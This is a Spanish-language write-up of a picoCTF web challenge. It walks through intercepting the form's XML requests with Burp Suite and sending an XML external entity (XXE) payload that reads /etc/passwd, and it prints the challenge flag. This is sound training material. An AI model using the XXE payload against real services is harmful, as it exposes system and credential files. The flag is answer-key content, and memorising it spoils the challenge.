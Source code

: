 ## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

[Web Portal](http://saturn.picoctf.net:58570/)


## Pistas
XML external entity Injection
## Solución 1
1. Inspeccionamos el HTML, nos damos cuenta que hay un formulario, que manda un valor segun el boton que se presione
2. Usando burpsuite, interceptamos el trafico al enviar algo al formulario
3. Vemos que cada solicitud genera un XML, que puede ser vulnerable a XXE
4. Podemos usarlo para correr codigo, en este caso para leer de `etc/passwd`
5. Enviamos una de las peticiones al repeater
6. Usando el siguiente payload, podemos leer el archivo indicado
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xee SYSTEM "file:///etc/passwd">
]>
<data>
	<ID>
		&xee;
	</ID>
</data>
```
```
picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```

## Notas adicionales

## Referencias
https://en.wikipedia.org/wiki/SOAP
https://en.wikipedia.org/wiki/XML